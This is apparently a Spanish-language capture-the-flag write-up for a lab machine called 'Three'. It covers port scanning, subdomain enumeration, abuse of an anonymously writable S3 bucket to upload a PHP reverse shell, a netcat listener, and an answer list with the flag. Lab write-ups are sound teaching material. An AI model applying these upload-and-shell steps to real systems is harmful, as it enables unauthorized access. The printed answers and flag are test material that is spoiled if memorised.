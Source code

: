 # Three

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Cloud**: Entorno de computación basado en servidores remotos.
  * **Custom Applications**: Aplicaciones desarrolladas para necesidades específicas.
  * **AWS**: Plataforma de servicios en la nube de Amazon.
  * **Reconnaissance**: Fase de recopilación de información en pruebas de seguridad.
  * **Web Site Structure Discovery**: Técnica para identificar la estructura de un sitio web.
  * **Bucket Enumeration**: Proceso de identificar y listar buckets en almacenamiento en la nube.
  * **Arbitrary File Upload**: Vulnerabilidad que permite la carga de archivos no autorizados.
  * **Anonymous/Guest Access**: Acceso sin autenticación a recursos o servicios.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.126.143
```

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -p- --min-rate 5000 -sV 10.129.126.143
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2024-09-01 201005.png" alt=""><figcaption></figcaption></figure>

Hicimos algunas pruebas en el sitio web y anotamos la dirección de correo electrónico que aparece en la sección de contacto: `mail@thetoppers.htb`.

Para facilitar el proceso, añadimos la siguiente entrada al archivo `/etc/hosts` en nuestro equipo:

```
10.129.126.143  thetoppers.htb
```

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Dentro de un dominio, es posible tener varios subdominios para organizar diferentes funcionalidades web sin necesidad de configurar un servidor por cada servicio. El próximo paso es identificar subdominios válidos. Para ello, utilizaremos un ataque de diccionario con la herramienta **Gobuster**.

```bash
gobuster vhost -u http://thetoppers.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Vamos a añadir la dirección del subdominio `s3.thetoppers.htb` al archivo `/etc/hosts` utilizando un comando sencillo.

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

Después de investigar en Internet, parece que el servicio se refiere a **Amazon Simple Storage Service (Amazon S3)**. En esencia, Amazon S3 es un servicio de almacenamiento en la nube que permite guardar datos en contenedores llamados **"buckets"**. Este servicio puede usarse para guardar diversos tipos de información, como copias de seguridad, archivos multimedia, páginas web estáticas, entre otros.

```
sudo apt install awscli
```

Debemos configurarlo de una forma básica por si cuela.

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

```bash
aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb
```

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Esto nos muestra dos elementos de interés y una carpeta llamada **"images"**. Además, disponemos de un servicio que nos permite descargar estos archivos de forma remota a nuestro entorno.

Si no hay una configuración que exija autorización para subir archivos, podemos intentar cargar una Reverse Shell. Sabemos que el servidor está ejecutando archivos con extensión PHP, por lo que ya sabemos cómo generar una. Para este propósito, suelo recurrir a la Reverse Shell en PHP disponible en **pentestmonkey**. Puedes encontrar el script [aquí](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Extraemos solo el contenido del payload y lo ajustamos para que funcione correctamente.

Luego, utilizamos el siguiente comando para subir un archivo desde nuestro sistema local al servicio remoto.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Como podemos ver, hemos logrado subir archivos sin autorización al bucket del servicio web que opera en el puerto 80. Por lo tanto, si accedemos a ese archivo mientras tenemos Netcat escuchando en el puerto especificado (443), deberíamos obtener una shell.

Primero, nos ponemos a la escucha:

```bash
nc -nlvp 443
```

Luego, accedemos a `http://thetoppers.htb/shell.php`.

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

Una vez dentro investigamos distintos directorios para ver donde se encuentra la flag. La flag se encontraba en el directorio `/var/www/flag.txt`.

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

#### Tarea 1: ¿Cuántos puertos TCP están abiertos?

**2**

_Durante un escaneo de puertos, se detectaron dos puertos TCP abiertos en el servidor._

#### Tarea 2: ¿Cuál es el dominio de la dirección de correo electrónico proporcionada en la sección "Contact" del sitio web?

**thetoppers.htb**

_En la sección de contacto de la página web, se proporciona una dirección de correo electrónico asociada al dominio `thetoppers.htb`._

#### Tarea 3:  En ausencia de un servidor DNS, ¿qué archivo de Linux podemos usar para resolver nombres de host a direcciones IP para poder acceder a los sitios web que apuntan a esos nombres de host?

**/etc/hosts**

_El archivo `/etc/hosts` en Linux se utiliza para mapear nombres de host a direcciones IP de manera manual._

#### Tarea 4: ¿Qué subdominio se descubre durante una enumeración adicional?

**s3.thetoppers.htb**

_A través de la enumeración, que es el proceso de identificar y explorar todos los subdominios y servicios relacionados con un dominio principal, se descubrió el subdominio `s3.thetoppers.htb`._

#### Tarea 5: ¿Qué servicio se está ejecutando en el subdominio descubierto?

**Amazon S3**

_Amazon S3 (Simple Storage Service) es un servicio de almacenamiento en la nube que permite almacenar y recuperar cualquier cantidad de datos en cualquier momento._

#### Tarea 6: ¿Qué utilidad de línea de comandos se puede usar para interactuar con el servicio que se ejecuta en el subdominio descubierto?

**awscli**

_`awscli` es una herramienta de línea de comandos que permite a los usuarios interactuar con los servicios de Amazon Web Services (AWS), incluidos S3, EC2, y más. Con `awscli`, los usuarios pueden realizar acciones como listar archivos, subir y descargar datos, y configurar permisos, todo desde la terminal._

#### Tarea 7: ¿Qué comando se utiliza para configurar la instalación de AWS CLI?

**aws configure**

_El comando `aws configure` se utiliza para configurar las credenciales necesarias para interactuar con los servicios de AWS a través de `awscli`._

#### Tarea 8: ¿Cuál es el comando utilizado por la utilidad mencionada para listar todos los buckets S3?

**aws s3 ls**

_El comando `aws s3 ls` se usa para listar todos los buckets S3 asociados con las credenciales configuradas en `awscli`._

#### Tarea 9: Este servidor está configurado para ejecutar archivos escritos en qué lenguaje de scripting web?

**php**

_El servidor web está configurado para ejecutar archivos en PHP, un lenguaje de scripting ampliamente utilizado para el desarrollo de aplicaciones web dinámicas._

#### Tarea 10: Enviar Flag

a980d99281a28d638ac68b9bf9453c2b

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

